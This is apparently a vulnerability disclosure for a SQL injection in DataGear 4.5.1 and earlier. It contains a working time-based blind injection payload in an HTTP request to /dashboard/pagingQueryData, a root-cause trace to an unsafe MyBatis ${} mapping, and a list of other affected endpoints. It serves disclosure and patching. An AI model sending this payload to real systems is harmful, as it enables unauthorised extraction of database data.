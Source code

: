 Description：
DataGear is an open source and free data visualization and analysis platform, free to create any data dashboard you want, and supports access to various data sources such as SQL, CSV, Excel, HTTP interface, and JSON. Before version 4.5.1, the system did not strictly filter the queryOrder parameter, resulting in SQL injection

Version:
datagear <= 4.5.1

ENV：
datagear 4.5.0 + mysql8

Vulnerability recurrence:
```
POST /dashboard/pagingQueryData HTTP/1.1
Host: localhost:50401
Content-Length: 231
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36
sec-ch-ua-platform: "macOS"
Origin: http://localhost:50401
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:50401/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"orders":[{"name":"createTime`and ((select 1 from(select if(substr(user(),1,1)='a',sleep(3),1))a)) and`createTime`=`createTime","type":"desc"}],"keyword":"test","dataFilter":"all","analysisProjectId":null,"page":0,"pageSize":10}
```
![image](https://user-images.githubusercontent.com/65865031/226653347-28e9e905-12d1-403e-b92e-5a3f8b9e4d59.png)

0x01Come to DashboardController and find the pagingQueryData route
![image](https://user-images.githubusercontent.com/65865031/226652309-9fd96243-f629-4157-987e-b1c0bfbdacd1.png)
0x02Called the pagingQuery method of htmlTplDashboardWidgetEntityService
![image](https://user-images.githubusercontent.com/65865031/226652757-66830d36-a83f-475e-8822-dec335fb250a.png)
0x03Call the pagingquery of AbstractMybatisService to query
![image](https://user-images.githubusercontent.com/65865031/226652886-4d6dfa3d-0c1d-405f-8e17-b083103d4dda.png)
0x04Find the corresponding mapper file. The ${} package used by the queryOrder parameter has not been precompiled, resulting in SQL injection.
![image](https://user-images.githubusercontent.com/65865031/226653021-e6ccd9d0-90e0-4af9-aa36-787d35e64f47.png)

other interface
/analysisProject/pagingQueryData

/dataSet/pagingQueryData

/chart/pagingQueryData
